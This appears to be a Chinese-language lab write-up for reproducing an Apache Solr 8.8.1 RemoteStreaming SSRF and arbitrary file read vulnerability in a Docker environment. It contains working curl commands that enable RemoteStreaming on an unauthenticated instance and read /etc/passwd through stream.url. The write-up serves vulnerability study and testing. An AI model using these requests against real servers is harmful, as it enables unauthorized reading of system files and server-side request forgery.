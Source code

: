 # Apache Solr RemoteStreaming 文件读取与SSRF漏洞

Apache Solr 是一个开源的搜索服务器。在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。

参考链接：

- https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ

## 漏洞环境

执行如下命令启动solr 8.8.1：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8983`即可查看Apache Solr后台。

## 漏洞复现

首先，访问`http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json`获取数据库名：

![](1.png)

发送如下数据包，修改数据库`demo`的配置，开启`RemoteStreaming`：

```
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
    $'http://your-ip:8983/solr/demo/config'
```

![](2.png)

再通过`stream.url`读取任意文件：

```
curl -i -s -k 'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```

![](3.png)